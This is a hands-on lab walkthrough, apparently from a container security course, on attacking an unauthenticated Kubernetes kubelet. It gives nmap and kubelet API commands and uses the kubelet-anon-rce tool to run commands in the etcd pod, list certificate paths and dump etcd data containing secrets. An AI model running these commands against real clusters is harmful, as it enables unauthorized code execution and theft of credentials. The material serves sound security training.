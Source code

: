 # **Attacking a K8s Kubelet**

---

#### **Lab Image : Kubernetes**

---

#### Step 1:

* Navigate to the `Kubelet Attack` directory on the provisioned server.

```
cd /root/container-training/Kubernetes/Kubelet-Attack
```

* Create a few secrets on the k8s cluster

```commandline
kubectl create ns secret

kubectl create -f secrets.yml

kubectl -n secret get secrets
```

### *Our objective is to compromise the `kubelet`, and steal all configs and secrets by gaining access to `etcd`.*

---

#### Step 2:

* Fetch the IP of the provisioned server

```commandline
serverip
```

* Run an Nmap Scan on the provisioned server to get the list of port and services.

```commandline
# We're running scan against a single port to save some time, but this might take a while
nmap <IP> -sV -p 10250
```

---

#### Step 3:

* Once it's identified that port `10250` is open, try accessing the following URLs on the browser and observe the results

```commandline
https://<serverip>:10250/metrics

https://<serverip>:10250/pods

https://<serverip>:10250/runningpods/
```

* Fetch the `etcd` pod name from the list of running pods

* Using [`kubelet-anon-rce.py`](https://github.com/serain/kubelet-anon-rce), let's gain access to the `etcd` pod and run a few commands.

```commandline
python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "ls /"

python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "ls /etc/kubernetes/pki/etcd/"

python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "ls /var/lib/etcd/member/wal/"
```

---

#### Step 4:

* From the `etcd` pod, let's dump all the data!

```commandline
python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "strings /var/lib/etcd/member/wal/0000000000000000-0000000000000000.wal" >> etcd_dump1.txt

python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "strings /var/lib/etcd/member/wal/0000000000000001-00000000000102aa.wal" >> etcd_dump2.txt
```

### *It can be observed that all data is stored in plain text!!*

---

#### Step 5:

* Delete all the secrets created in *Step 1* by deleting the `secret` namespace

```commandline
kubectl delete ns secret
```

---

### Reading Material/References:

* https://github.com/serain/kubelet-anon-rce

* https://labs.mwrinfosecurity.com/blog/attacking-kubernetes-through-kubelet/

* https://jakubbujny.com/2018/09/02/what-stores-kubernetes-in-etcd/

* https://coreos.com/etcd/docs/latest/dev-guide/interacting_v3.html

* https://github.com/etcd-io/etcd/blob/7f7e2cc79d9c5c342a6eb1e48c386b0223cf934e/Documentation/admin_guide.md
